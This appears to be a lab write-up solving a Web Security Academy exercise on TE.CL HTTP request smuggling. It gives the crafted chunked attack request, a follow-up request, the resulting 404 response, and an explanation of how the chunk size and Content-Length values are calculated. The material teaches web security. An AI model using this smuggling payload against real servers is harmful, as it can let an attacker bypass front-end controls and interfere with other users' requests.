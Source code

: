 ## 1. Introduction

Here we want to confirm if the TE.CL vulnerability exists. This means that the frontend processes the Transfer-Encoding and the backend Content-Length.

## 2. Challenge

Challenge is to smuggle a request to the backend server, so that the subsequent request triggers a 404 Not Found response.

## 3. Solution

Attack request:
```http
POST / HTTP/1.1
Host: 0a0e005d0434a64194ef9071002b00db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5d
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0

```

Normal request:
```http
GET / HTTP/1.1
Host: 0a0e005d0434a64194ef9071002b00db.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=tlqdmoalGQBjcttiZBW0R5PsDB2byXDh; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11

"Not Found"
```

## 4. Explanation

In the attack request we have a Content-Length and a Transfer-Encoding headers, and an additional Content-Length in the Body of the request.

First we have to leave this empty, because they need to be calculated after we craft the request,

Since the frontend uses chunked data, we also need to calculate the size of the chunk and put that in the beginning of the body.

Then we craft the request that we want to smuggle to the backend:
```http
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: ?

x=1
0

```

This is part of the body of the request that we want to send from the frontend, and smuggle in the backend.

The body part here has the size of 10, and since the normal request will be appended here, we need to put the Content-Length, at least one byte more, so we set it to 11.

The chunk size here has the length of 5d(hex) bytes, so we write that above the body.

Since we suppose that the backend processes Content-Length, we need to calculate what is the size of the body, that we want to be processed first by the backend, and that is only until the 5d part, counting also \r\n it means it's 4 bytes.

The backend will process this as a request and the remaining part "GET /404 ..." will be seen from the backend as another request, and will invoke the 404 Not Found.